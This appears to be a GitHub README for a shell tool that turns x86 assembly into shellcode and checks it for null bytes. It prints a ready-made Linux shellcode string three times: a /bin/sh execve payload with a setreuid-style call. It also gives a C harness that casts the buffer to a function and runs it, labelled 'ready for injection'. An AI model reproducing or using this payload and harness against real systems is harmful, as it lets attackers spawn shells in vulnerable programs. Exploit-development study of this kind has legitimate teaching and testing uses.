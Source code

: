 # 0x86-assembely-shellcodeing

exploitation with assembly shellcodeing and i write a tool to out shellcodeing and checking for null bytes
and detect it and refer it if it found

#Usage

```shellcode.sh ./file.asm ```
it will generate like that :
``` 
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42
```
you can write it to file.c with

```shellcode.sh ./file.asm c ```
it will generate like that :
```
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42

 [+] Writing shellCode as shell.c ready for injection
 
```
and this is content of ```generatedfile.c```
```
int main(){

char shellcode[]="\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int (*execshell)();
execshell=(int(*)()) shellcode;
int execrightnow=execshell();
}
```
#Writen And Devleoped By 0xCrypt00o under the Mit license 

